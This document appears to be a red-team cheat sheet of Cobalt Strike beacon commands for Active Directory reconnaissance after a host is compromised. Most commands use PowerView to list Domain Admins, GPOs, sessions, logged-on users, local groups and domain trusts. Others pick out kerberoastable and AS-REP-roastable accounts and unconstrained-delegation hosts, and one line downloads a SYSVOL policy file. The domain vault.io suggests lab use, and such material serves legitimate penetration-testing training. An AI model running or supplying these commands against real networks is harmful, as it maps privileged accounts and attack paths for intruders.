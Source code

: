 ```

# Domain Group Member
beacon> powershell Get-DomainGroupMember -Identity 'Domain Admins' | Select-Object MemberDistinguishedName

# All GPO
beacon> powershell Get-DomainGPO -Properties DisplayName | Sort-Object -Property DisplayName

# Local GPO Groups
Get-DomainGPOLocalGroup -ResolveMembersToSIDs

# Specific Computer
beacon> powershell Get-DomainGPO -Properties DisplayName -ComputerIdentity s-east-05| Sort-Object -Property Display

# Specific Policy
beacon> powershell Get-DomainGPO -Identity SomeGPOName

# Download
beacon> download \\vault.io\SysVol\vault.io\Policies\{CBZLLD65-D822-469A-ADB4-BE08DF6FZZZ1\Machine\Registry.pol

# Domain Local Group
beacon> powershell Get-DomainGPOLocalGroup | Select-Object GPODisplayName, GroupName

# Domain User Location
beacon> powershell Find-DomainUserLocation -UserGroupIdentity 'Domain Admins' | Select-Object UserName, SessionFromName

beacon> powershell Find-DomainUserLocation -Domain vault.io -UserIdentity p.sampson

# Local Group
beacon> powershell Get-NetLocalGroup | Select-Object GroupName

# Remote Machine Local Group
beacon> powershell Get-NetLocalGroup -ComputerName 's-east-05'| Select-Object GroupName

# Local Group Member
beacon> powershell Get-NetLocalGroupMember -GroupName Administrators | Select-Object MemberName, IsGroup, IsDomain

# logons
beacon> powershell Get-NetLoggedOn | Select-Object UserName

# sessions
beacon> powershell Get-NetSession -ComputerName s-east-05 | Select-Object CName, UserName

# Domain Trusts
beacon> powershell Get-DomainTrust -Domain vault.io

# Domain Trusts Dns
gwmi -Namespace root\MicrosoftDNS -Class MicrosoftDNS_Zone -Filter "ZoneType = 4" |Select -Property @{n='Name';e={$_.ContainerName}}, @{n='DsIntegrated';e={$_.DsIntegrated}}, @{n='MasterServers';e={([string]::Join(',', $_.MasterServers))}}, @{n='AllowUpdate';e={$_.AllowUpdate}}

# non-null SPNs
beacon> powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName

# asreproastable
beacon> powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName

# unconstrained delecation computers
beacon> powershell Get-DomainComputer -Unconstrained -Properties DnsHostName
```